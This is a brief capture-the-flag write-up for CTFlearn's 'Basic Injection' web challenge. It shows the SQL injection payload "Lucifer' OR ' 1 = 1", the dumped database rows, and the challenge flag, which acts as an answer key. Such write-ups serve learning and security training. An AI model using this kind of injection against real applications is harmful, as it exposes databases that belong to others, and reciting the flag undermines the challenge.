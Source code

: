 <h1> Basic Injection </h1>

Problem Statement: <br><br>
See if you can leak the whole database using what you know about SQL Injections. <br><br>

Step-1: <br><br>
After visiting the given URL <a>https://web.ctflearn.com/web4/</a>, you will be asked to input something and then submit it. <br><br>

Step-2: <br><br>
Inspect the input text box. <br><br>
You will find the line given below. <br><br>
<code> Try some names like Hiroki, Noah, Luke </code> <br><br>

Step-3: <br><br>
You will find no flag even after submitting the above names. Now try basic SQL payloads in the existing database. <br><br>
I submitted the input <code> Lucifer' OR ' 1 = 1</code>  and got the following output: <br><br>
<pre>
Name: Luke
Data: I made this problem.
Name: Alec
Data: Steam boys.
Name: Jalen
Data: Pump that iron fool.
Name: Eric
Data: I make cars.
Name: Sam
Data: Thinks he knows SQL.
Name: fl4g__giv3r
Data: CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}
Name: snoutpop
Data: jowls
Name: Chunbucket
Data: @datboiiii
</pre>
<br>
Step-4: <br><br>
The desired flag <code> CTFlearn{th4t_is_why_you_n33d_to_sanitiz3_inputs}</code> can be found in line number 12 of the above output.
